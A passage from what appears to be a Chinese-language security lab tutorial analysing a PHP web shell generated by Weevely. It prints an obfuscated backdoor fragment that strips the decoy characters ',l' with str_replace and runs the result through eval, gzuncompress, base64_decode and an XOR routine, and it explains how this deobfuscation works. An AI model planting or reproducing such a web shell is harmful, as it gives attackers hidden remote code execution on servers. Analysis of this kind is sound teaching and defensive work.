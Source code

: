 ```
$K='$kh,l="5d,l41";$kf=,l",l402a";f,lunctionx($t,$k,l){$c=st,lrlen,l($k,l);$l=str,llen($t),l;$o,l="";for(,l$i=0;$i';
$m=',l_,lexists(,l$i,$s)),l{$s[$i,l].=$p,l;$e,l,l=strpos($,ls[$i],$,lf);if($e){$k=$,lk,lh.$kf;o,l,lb_start';
$T='();@ev,lal,l(@gzuncompre,lss,l(@x(@ba,lse64_deco,lde(p,lr,leg_replace(arr,l,lay(,l"/_/",",l/-/"),a,l';
$o='++)$p.,l,l=$q[$m[2][$z,l]],l;if(strpos(,l$p,$h),l=,l==0){,l$s[$i]="",l;$p=$ss,l($p,3,l);,l}if(array_key';
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
$I=$C('',$x);$I();
?>

```
在源码中，其`变量名`是随机生成的，所以直接查看代码的变量名，很难查找出有什么规律。感兴趣的同学，可以使用不同名字和密码，多生成几组 PHP 木马进行对比验证。在这堆乱码中，有两处非常关键的代码在倒数第二和第三行，在解释这两行代码之前，我们先看一下变量 `$r`：

![图片描述](../imgs/1482975799229.png-wm.png)

```
# 处理过的字符串，夹杂着欺骗字符
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));
```

这里的意思是先将经 Weevely 随机生成，包含着`欺骗字符`的字符串赋值给 `$r`，接着通过函数 `str_replace` 洗掉其中的欺骗符号`,l`（这里使用`洗掉`比较易于理解，欺骗符号也是随机生成），洗掉欺骗符号的具体代码在倒数第二行：

```
# 洗掉欺骗字符，得到真正要执行的函数名称
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
```
对于插在代码中的欺骗符号之一 `,l`，可以看出有这么多（黄色标记的部分），在箭头一的位置，去掉欺骗字符后，就是一个正常的 `if` 语句：
